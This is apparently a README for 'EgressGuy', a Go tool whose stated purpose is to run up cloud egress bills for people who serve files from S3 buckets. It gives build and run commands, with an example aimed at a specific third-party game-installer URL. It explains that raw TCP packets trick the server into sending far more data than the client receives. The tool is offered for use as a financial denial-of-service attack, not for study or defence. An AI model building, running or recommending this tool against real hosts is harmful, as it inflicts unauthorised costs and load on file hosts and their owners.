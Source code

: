 # EgressGuy

Generates egress bills to whose using S3 bucket to serve BLOBs.

## How to use

```bash
# build the binary
go build -v -trimpath -ldflags "-s -w -buildid=" .

# print usage
./egressguy -h

./egressguy -r "http://h55na.gdl.easebar.com/identityv_setup_release_oversea_0112.exe"
```

## How it works

The program establishes the connection and send http requests by sending raw TCP packets to the server.

As the program is intended to generate egress bills,
it does not need to receive all the data from the server,
it only need to trick the server to send the data to the client.

And by sending raw TCP packets, the program can trick the server to send data with the traffic higher than the client network speed.
